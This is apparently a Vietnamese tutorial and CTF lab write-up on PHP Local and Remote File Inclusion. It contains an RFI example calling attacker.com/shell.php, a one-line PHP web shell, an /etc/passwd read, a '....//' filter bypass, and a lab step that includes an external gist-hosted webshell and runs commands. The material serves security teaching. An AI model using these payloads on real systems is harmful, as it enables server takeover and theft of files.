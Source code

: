 # File Inclusion
>Tên tài liệu: File Inclusion<br>
Thực hiện: Phạm Văn Tam <br>
Cập nhật lần cuối: 13/10/2024
>
# Mục Lục
[1. Khái niệm và các loại ](#p1) <br>
[2. Local File Inclusion (LFI)](#p2) <br>
[3. Remote File Inclusion (RFI)](#p3) <br>
[4. Lab ](#p4) <br>
# Nội dung
<a id="p1"></a>
## 1. Khái niệm và các loại
Inclusion là tính năng của ngôn ngữ lập trình giúp lập trình viên dễ dàng quản lý, tổ chức và tái sử dụng mã nguồn. <br>
File Inclusion là một lỗ hổng bảo mật trong ứng dụng web, xảy ra khi ứng dụng cho phép người dùng chỉ định tập tin (file) sẽ được nhúng vào hoặc thực thi bởi máy chủ. <br>
Có hai loại phổ biến: <br>
- Local File Inclusion (LFI)
- Remote File Inclusion (RFI) <br>
Các hàm inclusion nhận tham số truyền vào là một đường dẫn tới File hoặc một URL tùy theo ngôn ngữ lập trình <br>
File Inclusion là biến thể của Path Traversal
<a id="p2"></a>
## 2. Local File Inclusion (LFI)
Local File Inclusion (LFI) là lỗ hổng cho phép kẻ tấn công đưa nội dung của một tập tin có sẵn trên máy chủ vào ứng dụng. Khi ứng dụng không kiểm tra kỹ đầu vào, hacker có thể lợi dụng để đọc các tập tin nhạy cảm như /etc/passwd trên hệ thống Linux, hoặc các file cấu hình chứa thông tin quan trọng. <br>
Kịch bản phổ biến là ứng dụng dùng hàm include, require, include_once hoặc require_once trong PHP để nhúng file theo đường dẫn mà người dùng cung cấp. Nếu không xử lý đầu vào cẩn thận, hacker có thể thay đổi đường dẫn này để truy cập tập tin nhạy cảm. <br>
Ví dụ: <br>
URL sau: <br>
```
http://testphp.com/index.php?page=about.php
```
Nếu không kiểm tra kỹ đầu vào page, hacker có thể chỉnh sửa URL để: <br>
```
http://testphp.com/index.php?page=/etc/passwd
```
<a id="p3"></a>
## 3. Remote File Inclusion (RFI)
Remote File Inclusion (RFI) là lỗ hổng cho phép hacker nhúng và thực thi một tập tin từ một máy chủ khác. Điều này có thể dẫn đến việc thực thi mã độc hại trên máy chủ đích. RFI nguy hiểm hơn LFI vì nó cho phép hacker đưa mã độc vào từ xa và có thể chiếm quyền điều khiển máy chủ. <br>
Lỗ hổng này thường xảy ra khi ứng dụng web chấp nhận URL từ xa làm tham số và sử dụng hàm `include` hoặc `require` mà không kiểm tra kỹ đầu vào. <br>
Ví dụ : <br>
URL sau : <br>
```
http://testphp.com/index.php?page=http://attacker.com/shell.php
```
Tệp shell.php có nội dung : `<?php system($_GET['cmd']); ?>` <br>
Từ đó tệp shell.php sẽ được tải về và thực thi trên server. <br>
Lưu ý: RFI sẽ không hoạt động nếu có prefix đứng trước tham số URL
```
<?php
$page = $_GET["page"];
include("module/".$page);
echo $content;
?>
```
Thì module/http://attacker.com/shell.php sẽ không hoạt động <br>
<a id="p4"></a>
## 4. Lab
### 4.1 Learn the Capital 1
Mục tiêu của lab này là truy cập vào trang /admin mà chúng ta không có quyền. <br>
![image](https://github.com/user-attachments/assets/386338c3-6dcb-45f1-b624-df9b050e5c0a) <br>
Trang web hỏi về thủ đô của các nước và đưa ra câu trả lời: <br>
Tiên hành check source code <br>
![image](https://github.com/user-attachments/assets/2cf35f45-ef26-4741-aa64-00e4d5db678a) <br>
Giá trị của biến $page được lấy trực tiếp từ tham số `$_GET['country']` mà không có bất kỳ biện pháp lọc nào. Nếu một kẻ tấn công có thể cung cấp một đường dẫn đến tệp tin mà họ kiểm soát, họ có thể bao gồm và thực thi mã trong tệp tin đó, dẫn đến việc tấn công Local File Inclusion (LFI) hoặc Remote File Inclusion (RFI). <br>
Test thử với `/etc/passwd` : <br>
![image](https://github.com/user-attachments/assets/b4bdfb8f-3730-4fac-bab0-f1a82760668e)
Tiến hành truy cập vào trang admin <br>
![image](https://github.com/user-attachments/assets/f07f5da2-a4a1-46dc-a977-eb08d8b98654)
### 4.2 Learn the Capital 2
Ở lab này anh dev đã code thêm các tính năng bảo mật. Mục tiêu là truy cập trang admin <br>
Tiến hành check source code để xem : <br>
![image](https://github.com/user-attachments/assets/578f5fe9-9ecf-4206-a254-ba23fb053489) <br>
- Loại bỏ http:// và https:// khỏi $page: Điều này nhằm ngăn chặn tấn công kiểu Remote File Inclusion (RFI), bằng cách loại bỏ các URL bên ngoài.
- Loại bỏ các ký tự ../ và .." khỏi $page: Điều này nhằm hạn chế tấn công kiểu Local File Inclusion (LFI) bằng cách ngăn kẻ tấn công sử dụng các đường dẫn tương đối để thoát khỏi thư mục hiện tại.<br>
Liệu như này đã đủ an toàn chưa? Câu trả lời là không hihi <br>
Chúng ta có thể bypass như sau:  <br>
```
....//admin.php
```
![image](https://github.com/user-attachments/assets/66f4c4f9-17d6-46d9-99a8-15791cba6a45)
### 4.3 Learn the Capital 3
Lab này nói rằng họ đã tăng cường thêm các biện pháp bảo mật và bây giờ không dễ truy cập trang admin được nũa <br>
![image](https://github.com/user-attachments/assets/8d775505-f5bb-4e06-8b0a-11e0944f109e)
Lab này dùng hàm `strstrs` để kiểm tra biến $page xem biến $page có chứa chuỗi file hay không. Nếu tìm thấy chuỗi file thì nó sẽ báo lỗi và dừng chương trình. <br>
![image](https://github.com/user-attachments/assets/ad385835-58c4-41eb-adb9-8527eb8824da)
Liệu còn cách nào để bypass ở đây.  <br>
![image](https://github.com/user-attachments/assets/5031c845-511c-4ca6-b887-3a213b27c5f5)
### 4.4 Remote File Inclusion
phpinfo() Outputs information about PHP's configuration. Let's find phpinfo file, then create a Webshell for reading the flag file on the system. <br>
![image](https://github.com/user-attachments/assets/442e472e-73e0-47a9-8704-f311fd6329eb) <br>
Là trang web wiki CTF bắt request thì thấy rằng xuất hiện `http://103.97.125.56:30773/?file=1` thì có thể nó bị path traversal và dẫn đến file inclusion. <br>
Tên đề bài là RFI nên chúng ta sễ truyền vào 1 đoạn shell mà nó thực thi ở server khác: <br>
```
https://gist.githubusercontent.com/joswr1ght/22f40787de19d80d110b37fb79ac3985/raw/c871f130a12e97090a08d0ab855c1b7a93ef1150/easy-simple-php-webshell.php
```
Truyền thành công : <br>
![image](https://github.com/user-attachments/assets/7062a004-b1ba-4fc9-ab16-61b92349ef9b)
Tiến hành leak file trên server và lấy flag : <br>
`&cmd=ls`
![image](https://github.com/user-attachments/assets/95de95cc-4dca-4066-b0a4-1aff8c1f3f24)
![image](https://github.com/user-attachments/assets/c88094cc-3751-4d22-8878-78b9be649e8f)
![image](https://github.com/user-attachments/assets/0e63baa5-a5c7-46ee-b8e5-fc55031f7e4f)
### 4.5 Baby File Inclusion
Create a Webshell for reading the flag file on the system. <br>
Trang web wiki và có chức năng upload 1 file lên <br>
Upload thử và chúng ta biết được đường dẫn tập tin upload lên server <br>
![image](https://github.com/user-attachments/assets/6e17b515-17e8-449d-9861-2634318c8dd4) <br>
Truyền đường dẫn vào thấy no được in ra màn hình vì nó không có code php <br>
![image](https://github.com/user-attachments/assets/2df15e68-e5a3-4499-879a-045b5e682d48) <br>
Bắt rq burpsuite và truyền shell vào cuối nội dung ảnh : <br>
![image](https://github.com/user-attachments/assets/9199a653-355d-44a4-b191-5fe7e426a382)



